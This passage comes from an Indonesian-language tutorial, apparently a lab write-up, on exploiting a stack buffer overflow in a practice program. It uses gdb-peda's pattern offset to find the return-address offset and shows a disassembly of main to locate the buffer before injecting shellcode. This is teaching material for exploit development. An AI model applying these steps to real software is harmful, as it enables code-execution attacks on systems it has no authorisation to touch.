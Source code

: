 nah kita bisa cari offset return addres nya dengan command pada gdb-peda :

    pattern offset 0x61414145

lalu akan muncul jumlah ofset yang perlu kita ketahui

<img src="img/offset.png" alt="call_shellcode"
     style="float: left;" />
<br>

#### 5.Mencari alamat Buffer

setelah kita tau offset nya, kita perlu mencari tau alamat buffer nya, masuk ke gdb-peda dan lihat code diassambly nya

    $ gdb -q stack
    gdb-peda$ pdisass main

```python
Dump of assembler code for function main:
   0x080484da <+0>:	lea    ecx,[esp+0x4]
   0x080484de <+4>:	and    esp,0xfffffff0
   0x080484e1 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484e4 <+10>:	push   ebp
   0x080484e5 <+11>:	mov    ebp,esp
   0x080484e7 <+13>:	push   ecx
   0x080484e8 <+14>:	sub    esp,0x214
   0x080484ee <+20>:	sub    esp,0x8
   0x080484f1 <+23>:	push   0x80485d0
   0x080484f6 <+28>:	push   0x80485d2
   0x080484fb <+33>:	call   0x80483a0 <fopen@plt>
   0x08048500 <+38>:	add    esp,0x10
   0x08048503 <+41>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048506 <+44>:	push   DWORD PTR [ebp-0xc]
   0x08048509 <+47>:	push   0x205
   0x0804850e <+52>:	push   0x1
   0x08048510 <+54>:	lea    eax,[ebp-0x211]
   0x08048516 <+60>:	push   eax
   0x08048517 <+61>:	call   0x8048360 <fread@plt>
   0x0804851c <+66>:	add    esp,0x10
   0x0804851f <+69>:	sub    esp,0xc
   0x08048522 <+72>:	lea    eax,[ebp-0x211]
   0x08048528 <+78>:	push   eax
   0x08048529 <+79>:	call   0x80484bb <bof>
   0x0804852e <+84>:	add    esp,0x10
   0x08048531 <+87>:	sub    esp,0xc
   0x08048534 <+90>:	push   0x80485da
   0x08048539 <+95>:	call   0x8048380 <puts@plt>
   0x0804853e <+100>:	add    esp,0x10
   0x08048541 <+103>:	mov    eax,0x1
   0x08048546 <+108>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048549 <+111>:	leave  
   0x0804854a <+112>:	lea    esp,[ecx-0x4]
   0x0804854d <+115>:	ret    
End of assembler dump.
```
kita break saat memamnggil function bof
